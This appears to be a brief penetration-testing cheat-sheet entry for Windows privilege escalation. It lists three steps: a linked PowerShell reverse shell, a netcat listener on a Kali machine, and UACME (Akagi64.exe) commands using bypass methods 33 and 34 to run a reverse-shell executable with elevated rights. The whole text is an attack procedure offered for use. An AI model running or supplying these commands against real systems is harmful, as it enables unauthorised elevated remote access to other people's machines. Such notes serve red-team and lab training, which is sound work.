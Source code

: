 ### 1 - Create a reverse shell script
[[Reverse Shell/Powershell]]

### 2 - Listenner on kali machine
```powershell
rlwrap -cAr nc -nlvp 8080
```

### 3 -  UACME
```powershell
.\Akagi64.exe 33 C:\Windows\Tasks\ex.exe
.\Akagi64.exe 34 C:\tmp\reverseShell.exe
```

